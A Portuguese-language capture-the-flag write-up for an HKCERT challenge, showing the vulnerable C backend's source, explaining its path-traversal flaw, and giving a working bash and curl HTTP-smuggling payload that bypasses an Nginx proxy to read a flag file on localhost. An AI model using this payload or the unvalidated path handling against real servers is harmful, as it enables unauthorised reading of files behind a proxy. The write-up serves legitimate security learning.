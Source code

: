 # Duckware Team - High Knowledge Preparatory School
###### Solved by @Antonio-alexandre

> This CTF is about HTTP smuggling, nginx bypass, path transversal

## Desafio: High Knowledge Preparatory School (HTTP Smuggling, Nginx Bypass, Path Transversal)
#### Introdução

Esse desafio consiste em um site onde desafia o usuário a descobrir suas vulnerabilidades e explorá-las a fim de descobrir uma flag.

#### Análise Inicial

Nos deparamos com um arquivo zipado, contendo um servidor a ser executado no Docker. 

Basta então, iniciar o servidor e executá-lo.

Fazendo isso, temos acesso ao seguinte site:

[![Print.png](https://i.postimg.cc/yYcM9ntN/Print.png)](https://postimg.cc/F7FCXb9t)

Aparentemente é uma escolha de conhecimentos técnicos.

#### Solução

Esse é um site "básico", rodando em um servidor local que possui um proxy Nginx. Esse proxy é utilizado para repassar toda e qualquer requisição a ser executada para o backend.

Assim que obtemos essa informação, o próximo passo é explorar o código fonte. Para isso, iremos abrir as pastas e analisar o código interno.

```
#include <sys/types.h>
#include <sys/socket.h>
#include <stdio.h>
#include <netinet/in.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <stdbool.h>

#define PORT 8000
#define BUFFER_SIZE 1024

typedef struct {
    char *content;
    int size;
} FileWithSize;

bool ends_with(char *text, char *suffix) {
    int text_length = strlen(text);
    int suffix_length = strlen(suffix);

    return text_length >= suffix_length && \
           strncmp(text+text_length-suffix_length, suffix, suffix_length) == 0;
}

FileWithSize *read_file(char *filename) {
    if (!ends_with(filename, ".html") && !ends_with(filename, ".png") && !ends_with(filename, ".css") && !ends_with(filename, ".js")) return NULL;

    char real_path[BUFFER_SIZE];
    snprintf(real_path, sizeof(real_path), "public/%s", filename);

    FILE *fd = fopen(real_path, "r");
    if (!fd) return NULL;

    fseek(fd, 0, SEEK_END);
    long filesize = ftell(fd);
    fseek(fd, 0, SEEK_SET);

    char *content = malloc(filesize + 1);
    if (!content) return NULL;

    fread(content, 1, filesize, fd);
    content[filesize] = '\0';

    fclose(fd);

    FileWithSize *file = malloc(sizeof(FileWithSize));
    file->content = content;
    file->size = filesize;
 
    return file;
}

void build_response(int socket_id, int status_code, char* status_description, FileWithSize *file) {
    char *response_body_fmt = 
        "HTTP/1.1 %u %s\r\n"
        "Server: mystiz-web/1.0.0\r\n"
        "Content-Type: text/html\r\n"
        "Connection: %s\r\n"
        "Content-Length: %u\r\n"
        "\r\n";
    char response_body[BUFFER_SIZE];

    sprintf(response_body,
            response_body_fmt,
            status_code,
            status_description,
            status_code == 200 ? "keep-alive" : "close",
            file->size);
    write(socket_id, response_body, strlen(response_body));
    write(socket_id, file->content, file->size);
    free(file->content);
    free(file);
    return;
}

void handle_client(int socket_id) {
    char buffer[BUFFER_SIZE];
    char requested_filename[BUFFER_SIZE];

    while (1) {
        memset(buffer, 0, sizeof(buffer));
        memset(requested_filename, 0, sizeof(requested_filename));

        if (read(socket_id, buffer, BUFFER_SIZE) == 0) return;

        if (sscanf(buffer, "GET /%s", requested_filename) != 1)
            return build_response(socket_id, 500, "Internal Server Error", read_file("500.html"));

        FileWithSize *file = read_file(requested_filename);
        if (!file)
            return build_response(socket_id, 404, "Not Found", read_file("404.html"));

        build_response(socket_id, 200, "OK", file);
    }
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    struct sockaddr_in server_address;
    struct sockaddr_in client_address;

    int socket_id = socket(AF_INET, SOCK_STREAM, 0);
    server_address.sin_family = AF_INET;
    server_address.sin_addr.s_addr = htonl(INADDR_ANY);
    server_address.sin_port = htons(PORT);

    if (bind(socket_id, (struct sockaddr*)&server_address, sizeof(server_address)) == -1) exit(1);
    if (listen(socket_id, 5) < 0) exit(1);

    while (1) {
        int client_address_len;
        int new_socket_id = accept(socket_id, (struct sockaddr *)&client_address, (socklen_t*)&client_address_len);
        if (new_socket_id < 0) exit(1);
        int pid = fork();
        if (pid == 0) {
            handle_client(new_socket_id);
            close(new_socket_id);
        }
    }
}
```

Como é possível analisar no seguinte trecho, o site possui uma vulnerabilidade conhecida como `path transversal`:

```
snprintf(real_path, sizeof(real_path), "public/%s", filename);
```

Nesse trecho, há uma concatenação do diretório `public` com o arquivo a ser passado, no caso `filename`, sem executar validação ou verificação das entradas. Assim, é possível acessar todos os arquivos do diretório `public` através de uma técnica que utiliza o seguinte prefixo: `../`

Para isso, utilizaremos uma técnica conhecida como [HTTP Smuggling](https://portswigger.net/web-security/request-smuggling). Essa técnica nos permite acessar arquivos internos através da modificação de requisições HTTP. Ela consiste de forjar uma primeira requisição que o Nginx reconheça como válida, seguida de uma parte que é interpretada de forma separada pelo backend, fazendo assim que o Nginx reconheça apenas como uma única requisição, realizando assim o [Path Transversal](https://www.infosec.com.br/path-traversal/). 

Para isso, utilizaremos o seguinte código que envia a requisição da maneira que desejamos:

```
foo_value=$(python3 -c 'print("a" * 931)')
path_padding=$(python3 -c 'print("/" * (1016 - len("../../flag.txt")))')
full_path="${path_padding}../../flag.txt.js"

payload=$'GET /'"$full_path"$'GET /index.html HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n\r\n'

curl -v --http1.1 http://localhost:8081 \
  -H "Host: localhost" \
  -H "Content-Length: 1024" \
  -H "Foo: $foo_value" \
  --data-binary "$payload"
```

Resumidamente, o que esse código faz é enviar a requisição preenchendo o buffer, além de enviar a requisição GET da maneira que desejamos e por fim utilizar o curl para receber os valores da requisição.

Executando assim esse código no terminal, ele nos retorna toda a requisição que foi recebida através do `curl`, além da seguinte flag:

> `hkcert24{***REDACTED***}`
